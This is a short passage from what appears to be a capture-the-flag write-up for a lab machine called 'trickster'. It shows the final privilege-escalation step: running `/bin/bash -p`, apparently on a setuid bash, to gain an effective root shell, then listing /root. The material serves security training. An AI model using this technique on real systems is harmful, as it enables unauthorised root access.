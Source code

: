 And if we execute `/bin/bash -p`, we finally become "**root**."

````bash
adam@trickster:/tmp$ /bin/bash -p
bash-5.1# id
uid=1002(adam) gid=1002(adam) euid=0(root) groups=1002(adam)
bash-5.1# cd /root
bash-5.1# ls
changedetection  root.txt  scripts  snap
````

![netrunner](/assets/images/netrunner.gif)